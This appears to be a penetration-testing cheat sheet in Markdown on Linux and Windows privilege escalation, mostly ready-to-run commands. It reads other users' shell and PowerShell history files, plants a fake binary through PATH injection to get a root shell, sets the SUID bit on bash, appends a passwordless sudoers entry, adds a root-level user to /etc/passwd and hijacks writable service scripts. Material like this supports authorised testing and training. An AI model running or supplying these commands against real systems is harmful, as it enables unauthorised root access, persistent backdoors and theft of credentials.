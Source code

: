 ### Checklist
```bash
# check if any notes useful in your landing directory with
ls -la # linux
# Check history file
cat /home/USER/.bash_history
```
```powershell
gci -force 
gc C:\users\*\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### Linux binary exploit
If the linpeas enum highlighted some binaries for exploit, check

[GTFObins](https://gtfobins.github.io/)



### Path injection or relative path exploit
```bash
# If there is an unknown SUID invoking another binary 
# that does not use absolute path
# And you can manipulate the PATH variable
# Create that binary like
echo "#!/bin/bash" > /tmp/THAT_BINARY
echo "/bin/bash -ip" >> /tmp/THAT_BINARY
export PATH=/tmp:$PATH
# Execute the suid binary and you will get root
```

### Cron job abuse/general priv esc techniques
``` bash
# For cron job, there are many things you can use as a payload
# Modify or create the script
#1. Add sticky bit to the bash file
chmod u+s /bin/bash
#or 
cp /bin/bash /tmp/bash; chmod u+s /tmp/bash
2. Add sudoers
echo "CURRENT_USER ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers 
#3. Call reverse shell
#add reverse shell payload to the script
#4. add new privileged user to /etc/passwd
#Create a new user password with openssl
openssl passwd 123
#append the new user to /etc/passwd in such format 
echo "Fakeuser:${HASH}:0:0:root:/root:/bin/bash" >> /etc/passwd
# if there is a $ in the hash, you might have to escape it with \
```
### Modifiable service script exploit
If a service script (.service file or the script used in `ExecStart`) is writable,
you can replace the `ExecStart` part with your PE payload.
Or replace the content of the script which called by the `ExecStart`.
The payload and methodology can be any of the general priv esc tehcniques
